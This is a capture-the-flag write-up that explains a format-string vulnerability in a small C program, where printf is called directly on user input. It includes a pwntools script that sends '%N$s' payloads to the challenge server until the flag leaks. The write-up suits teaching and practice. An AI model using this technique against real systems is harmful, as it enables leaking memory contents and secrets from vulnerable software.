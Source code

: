 # cant-fine-me:
## Description:

Can you find the flag?

```
nc 129.241.209.70 29279
```
---
## The plan
We are given both the source code and the binary for this challenge. We start out by looking at the source code, which is small and straight forward. 

```c
char flag[]  = "REDACTED";

int main() {
    char *flagPointer = flag;
    char input[20];
    puts("Where to look?");
    fgets(input, 20, stdin);
    printf(input);
    return 0;
}
```

We can see that in the main function, a pointer to the flag is created, before we are asked where to look. Our input is then printed to stdout using `printf` without any formatter. 

The first parameter to the `printf` function is a format string. meaning we can specify the type of parameters we want to print. We can look at the details by typing `man 3 printf` in a terminal.

The safe way to call this function would have been `printf("%s", input)`, then the function would print our input as a string. But the way its used in this program, the user controls the first argument to printf, meaning we can control how the output is formated. lets say we send in `%p`, the program will then assume that there is a second argument to printf, and since this a 64bit binary, it will print the pointer in the register `RSI`.

From the soruce code, we can assume that there is a pointer to the flag on the stack, and by using the `%X$s` formater to print a string at a given position `X` on the stack, we should be able to find the flag eventually. 

## Exploit script

The easiest way to do this, is to create a script that tries to print all pointers on the stack as a string, one by one.

```python
from pwn import *
for i in range(100):
    io = remote('129.241.209.70', 29279)
    io.recvuntil('look?\n')
    io.sendline(f'%{i}$s')
    data = io.recvline()
    if b'KID20' in data:
        print(data)
        break
    io.close()
```
Running the scirpt:
![solve](solve.png)